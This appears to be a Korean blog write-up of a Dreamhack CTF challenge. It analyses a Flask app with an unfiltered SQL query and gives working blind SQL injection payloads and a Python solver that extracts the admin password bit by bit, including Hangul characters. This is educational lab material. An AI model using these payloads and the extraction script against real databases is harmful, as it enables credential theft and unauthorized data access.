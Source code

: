 ```yaml
---
title: "드림핵 lv.2 - blind sql injection advanced"
date: 2025-02-28 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, blind sql injection] 
description: 드림핵 blind sql injection advanced 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/411](https://dreamhack.io/wargame/challenges/411)
# 문제 설명
Exercise: Blind SQL Injection Advanced에서 실습하는 문제입니다.  
**관리자의 비밀번호는 "아스키코드"와 "한글"로 구성되어 있습니다.**

---
# 문제 풀이
## 웹사이트 분석
사이트에 접속해보면 `SELECT * FROM users WHERE uid='';` 문자열이 뜨고 그 아래에 `uid`의 값을 입력할 수 있는 Input box와 submit 버튼이 보인다. <br />


인풋에 값을 입력하면 쿼리의 `uid=''` 사이에 들어가는 것이 분명하다. 그리고 문제 제목을 보면 Blind SQLI를 이용해서 해결하는 문제라는 것도 분명하다. <br />

본격적으로 문제를 풀기 이전에 좀 더 많은 정보를 위해서 코드도 살펴보자.
## 코드 분석
```
[Code Structure]
deploy/
	- app.py
	- init.sql
	- requirements.txt
	- run.sh
DockerFile
```
### app.py
```python
@app.route('/', methods=['GET'])
def index():
    uid = request.args.get('uid', '')
    nrows = 0

    if uid:
        cur = mysql.connection.cursor()
        nrows = cur.execute(f"SELECT * FROM users WHERE uid='{uid}';")

    return render_template_string(template, uid=uid, nrows=nrows)
```
 다른 부분들은 HTML 관련이라서 라우터 부분만 가져왔다.<br />
 예상대로 유저로부터 받은 `uid` 값을 필터링하지 않기 때문에 인젝션 공격에 굉장히 취약하다.
### DockerFile
```docker
...

# DB
RUN /bin/bash -c "/usr/bin/mysqld_safe &" && \
  sleep 5 && \
  mysql -uroot < /app/init.sql
RUN rm /app/init.sql

...
```
### init.sql
```sql
CREATE DATABASE user_db CHARACTER SET utf8;
GRANT ALL PRIVILEGES ON user_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `user_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO users (uid, upw) values ('admin', 'DH{**FLAG**}');
INSERT INTO users (uid, upw) values ('guest', 'guest');
INSERT INTO users (uid, upw) values ('test', 'test');
FLUSH PRIVILEGES;
```
`DockerFile`을 보면 서버가 실행될 때 `init.sql`이 함께 실행된다.<br />
SQL 코드를 보면 `users`라는 테이블이 하나 생성되고 그 안에 샘플 유저 값들이 입력되는데 admin이라는 유저의 비밀번호가 플래그임을 보여준다.
## 최종 풀이
```sql
SELECT * FROM users WHERE uid='';
```
결론적으로 우리가 해야할 것은 위의 쿼리를 이용해서 비밀번호를 알아내야한다. <br />
### 테스트
```
user "admin' and substr(upw, 1, 1)='D' -- " exists.
```
우선 테스트용으로 `admin' and substr(upw, 1, 1)='D' -- `를 입력해서 유저를 얻어올 수 있는지 체크가 필요하다.<br />
다행히도 해당 유저가 존재한다고 출력이 된다. 유저의 비밀번호가 'D'로 시작하는 것은 `init.sql`에서 알 수 있다.
### 문제점
이제 익스플로잇을 작성하고 brute forcing 하면 되는데 문제가 있다. <br />

문제를 읽어보면 비밀번호는 아스키코드와 **한글**로 이루어져 있다고 한다. 아스키코드는 완전 탐색으로 하던 이진 탐색으로 하던 그럭저럭 할만한데 한글은 가능한 경우의 수만 1만개가 넘는다. (utf-8 언어셋의 한글은 11,172개가 있다고 한다.)<br />

그래서 여기서 사용하면 좋을 방법은 비트 연산을 이용한 풀이이다.
### 비밀번호 길이 구하기
본격적으로 시작하기 이전에 비밀번호의 길이를 먼저 알아내는게 좋다.
```python
class Solver:
    def __init__(self):
        self.url = "http://host1.dreamhack.games:15103/?uid="
        self.length = 0
    
    def _getPWLength(self):
        for length in range(1, 100):
            query = f"admin' and char_length(upw) = {length} -- "
            resp = requests.get(self.url + query)

            if "exists" in resp.text:
                self.length = length
                break

    def solve(self):
        self._getPWLength()
        print(self.length)
```
해당 코드를 실행해주면 비밀번호 길이로 13이 나오게된다.
### 비밀번호의 각 문자마다 비트 수 알아내기
아스키 문자로만 이루어져있다면 비트 수가 7로 고정이지만 이 경우에는 그렇지 않다 그래서 모든 문자마다 비트열이 어떤지 알아내는 과정이 필요하다.

```python
def _getBitLengths(self):
	for i in range(1, self.length + 1):
		bitLength = 0

		while True:
			bitLength += 1
			query = f"admin' and length(bin(ord(substr(upw, {i}, 1)))) = {bitLength} -- "
			resp = requests.get(self.url + query)
			if "exists" in resp.text:
				self.bitLens.append(bitLength)
				break

def solve(self):
	self._getPWLength()
	print(self.length)
	self._getBitLengths()
	print(self.bitLens)
```
### 비밀번호의 각 문자마다 비트열 알아내기
```python
def _getBitStrings(self):
	for i, bitLength in enumerate(self.bitLens):
		bits = ""
		for j in range(1, bitLength + 1):
			query = f"admin' and substr(bin(ord(substr(upw, {i + 1}, 1))), {j}, 1) = '1' -- "
			resp = requests.get(self.url + query)

			if "exists" in resp.text:
				bits += '1'
			else:
				bits += '0'
			
		self.bits.append(bits)

def solve(self):
	self._getBitStrings()
	print(self.bits)
```
### 최종 비밀번호 알아내기
```python
def _getActualChar(self):
	for i in range(0, self.length):
		byte = int.to_bytes(int(self.bits[i], 2), (self.bitLens[i] + 7) // 8, "big")
		byteInt = int.from_bytes(byte, "big")

		if byteInt > 127: 
			self.result += byte.decode("utf-8")
		else:
			print(byteInt)
			self.result += chr(byteInt)

def solve(self):
	self._getActualChar()
	print(self.result)
```
이렇게 마지막 코드를 실행하게 되면 최종 비밀번호를 얻을 수 있게 된다. 비밀번호의 형식 자체가 `DH{}` 플래그 형식이라 곧바로 제출하면 끝이다.<br />

아스키 문자와 한글로 이루어져 있다고 했는데 사실상 `DH{}`와 특수 문자 2개를 제외하고는 모두 다 한글이었다.
# 배운 것
Blind SQLI를 비트 연산을 통해서 수행하는 법을 익힐 수 있었다.<br />
비트 문자열을 숫자 그리고 문자로 변환하는 방법에 대해 알게됐다, 특히나 utf-8에 관련해서.
